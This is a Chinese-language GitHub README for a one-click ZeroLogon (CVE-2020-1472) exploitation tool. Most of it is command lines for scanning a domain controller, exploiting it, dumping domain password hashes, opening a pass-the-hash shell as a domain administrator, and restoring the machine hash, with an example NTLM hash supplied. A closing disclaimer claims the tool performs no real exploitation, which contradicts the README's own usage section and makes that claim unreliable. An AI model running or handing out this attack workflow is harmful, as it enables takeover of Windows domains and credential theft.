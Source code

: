 # ZeroLogon exploitation script

## 简介与使用

集合检测与利用一体脚本，可一键恢复域控机器Hash，节省攻防中漏洞利用的时间，使用方式如下

```
1.扫描
python zerologon_exploit.py dc_ip -scan

2.漏洞利用
python zerologon_exploit.py dc_ip -exp
python zerologon_exploit.py dc_ip -exp -user user #dump域内指定用户

3.pth登录域控
python zerologon_exploit.py dc_ip -shell
python zerologon_exploit.py dc_ip -shell -user domain_admins
python zerologon_exploit.py dc_ip -recover -user domain_admins -hashes aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b #若dc_name.ntds中没有该域管hash可以进行指定

4.恢复域控机器hash
python zerologon_exploit.py dc_ip -recover
python zerologon_exploit.py dc_ip -recover -user domain_admins
python zerologon_exploit.py dc_ip -recover -user domain_admins -hashes aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b #若dc_name.ntds中没有该域管hash可以进行指定

pth和恢复域控机器Hash默认使用administrator进行操作，如真实环境没有该账户，则可-user指定域管账户
```

![](image/exploit.png)

## 参考链接

https://github.com/SecuraBV/CVE-2020-1472

https://github.com/risksense/zerologon

https://github.com/bb00/zer0dump

https://github.com/SecureAuthCorp/impacket

## 免责声明

本工具仅面向**合法授权**的企业安全建设行为，如您需要测试本工具的可用性，请自行搭建靶机环境。

为避免被恶意使用，本项目所有收录的poc均为漏洞的理论判断，不存在漏洞利用过程，不会对目标发起真实攻击和漏洞利用。

在使用本工具进行检测时，您应确保该行为符合当地的法律法规，并且已经取得了足够的授权。**请勿对非授权目标进行扫描。**

如您在使用本工具的过程中存在任何非法行为，您需自行承担相应后果，我们将不承担任何法律及连带责任。

在安装并使用本工具前，请您**务必审慎阅读、充分理解各条款内容**，限制、免责条款或者其他涉及您重大权益的条款可能会以加粗、加下划线等形式提示您重点注意。 除非您已充分阅读、完全理解并接受本协议所有条款，否则，请您不要安装并使用本工具。您的使用行为或者您以其他任何明示或者默示方式表示接受本协议的，即视为您已阅读并同意本协议的约束。
